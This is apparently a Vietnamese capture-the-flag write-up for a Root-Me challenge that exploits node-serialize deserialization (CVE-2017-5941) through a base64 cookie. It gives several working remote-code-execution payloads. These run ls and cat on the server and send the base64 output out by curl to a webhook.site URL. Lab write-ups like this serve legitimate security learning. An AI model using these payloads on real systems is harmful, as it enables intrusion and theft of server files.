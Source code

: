 Challenge: http://challenge01.root-me.org:59067/

Đầu tiên khi truy cập challenge ta thấy nó sẽ bắt nhập `user:password`:
![alt text](image-1.png)

Thử với `admin:admin` hay `guest:guest` đều không thể vào trong, ở Burp Suite ta thấy đọc request và response: 
![alt text](image-2.png)

Ta thấy 1 đầu vào đang được đưa vào 1 dòng cookie và được base64 ở dạng chuỗi. Với tên bài là node-serialize thì tìm kiếm ta sẽ có được https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf là `CVE-2017-5941`

Khai thác : 
Đầu tiên với payload: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc', function(error, stdout, stderr) { console.log(stdout) })"}`
![alt text](image-3.png)

Ta đã có thể bắt được gói tin bên webhook, có nghĩa là ta đã có thể thực hiện lệnh curl:
![alt text](image-4.png) 

Tiếp tục thay thế bằng payload: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('ls | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\
![alt text](image-5.png)
![alt text](image-6.png)

Tiếp theo ta vào folder flag: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('ls flag | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\
![alt text](image-7.png)
![alt text](image-8.png)

Tiếp tục: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('ls flag/secret | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\
![alt text](image-9.png)
![alt text](image-10.png)

Đến đây là hết rồi, secret là file flag rồi nên ta sẽ cat nó ra: 
`{"userName":"a","passWord":"_$$ND_FUNC$$_require('child_process').exec('cat flag/secret | base64 | curl https://webhook.site/ae3f1599-2460-4b76-b22d-47c8fd375dbc?c=$(cat)', function(error, stdout, stderr) { console.log(stdout) })"}`\
![alt text](image-11.png)
![alt text](image-12.png)

